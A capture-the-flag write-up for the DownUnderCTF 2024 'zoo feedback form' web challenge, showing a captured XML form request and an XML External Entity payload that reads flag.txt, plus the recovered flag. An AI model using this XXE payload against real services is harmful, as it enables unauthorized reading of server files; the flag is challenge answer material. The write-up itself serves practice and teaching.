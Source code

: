 # zoo feedback form
The zoo wants your feedback! Simply fill in the form, and send away, we'll handle it from there!

## Data
* https://web-zoo-feedback-form-2af9cc09a15e.2024.ductf.dev
* zoo-feedback-form.zip

## Solution
The website shows a feedback form:

![Feedback](./images/zoo_feedback_form/website.png)

A quick look into the request header, shows that XML is used to send this form:
```
POST / HTTP/2
Host: web-zoo-feedback-form-2af9cc09a15e.2024.ductf.dev
Content-Length: 185
Sec-Ch-Ua: "Chromium";v="125", "Not.A/Brand";v="24"
Sec-Ch-Ua-Platform: "Linux"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: https://web-zoo-feedback-form-2af9cc09a15e.2024.ductf.dev
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://web-zoo-feedback-form-2af9cc09a15e.2024.ductf.dev/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=1, i

<?xml version="1.0" encoding="UTF-8"?>
            <root>
                <feedback>TEST</feedback>
            </root>
```
We can also verify that in the source code of the app.

We can try to abuse this with XML External Entity (XXE) to access the flag file. For that we can the following payload:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "flag.txt"> ]>
            <root>
                <feedback>&xxe;</feedback>
            </root>
```

As result we receive the flag:
![XXE](./images/zoo_feedback_form/xxe.png)

The flag is `DUCTF{emU_say$_he!!0_h0!@_ci@0}`.
